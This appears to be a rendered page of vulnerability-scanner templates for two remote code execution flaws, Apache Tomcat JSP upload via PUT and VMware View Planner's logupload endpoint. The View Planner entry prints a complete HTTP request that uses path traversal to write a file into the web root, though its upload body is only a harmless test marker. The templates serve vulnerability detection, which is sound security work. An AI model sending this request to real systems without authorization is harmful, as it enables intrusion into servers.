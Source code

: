 - part - body
- words
  1. 48dbd2384cb6b996fa1e2855c7f0567f

**Type - status**

- status
  1. 200

---

# Apache Tomcat Servers - Remote Code Execution

## Description

- Apache Tomcat servers 7.0.{0 to 79} are susceptible to remote code execution. By design, you are not allowed to upload JSP files via the PUT method. This is likely a security measure to prevent an attacker from uploading a JSP shell and gaining remote code execution on the server. However, due to the insufficient checks, an attacker could gain remote code execution on Apache Tomcat servers that have enabled PUT method by using a specially crafted HTTP request.

- severity - high
- tags - rce,tomcat,kev,cisa,vulhub,cve,cve2017,apache,fileupload

## Requests

- Method - PUT

---

# VMware View Planner \<4.6 SP1- Remote Code Execution

## Description

- VMware View Planner 4.x prior to 4.6 Security Patch 1 contains a remote code execution vulnerability due to improper input validation and lack of authorization leading to arbitrary file upload in logupload web application.
  An unauthorized attacker with network access to View Planner Harness could upload and execute a specially crafted
  file leading to remote code execution within the logupload container.

- severity - critical
- tags - cve,cve2021,vmware,rce,packetstorm,fileupload,intrusive

## Requests

### Step - 1

```
POST /logupload?logMetaData=%7B%22itrLogPath%22%3A%20%22..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fhttpd%2Fhtml%2Fwsgi_log_upload%22%2C%20%22logFileType%22%3A%20%22log_upload_wsgi.py%22%2C%20%22workloadID%22%3A%20%222%22%7D HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySHHbUsfCoxlX1bpS
Accept: text/html
Referer: {{BaseURL}}
Connection: close

------WebKitFormBoundarySHHbUsfCoxlX1bpS
Content-Disposition: form-data; name="logfile"; filename=""
Content-Type: text/plain

POC_TEST
```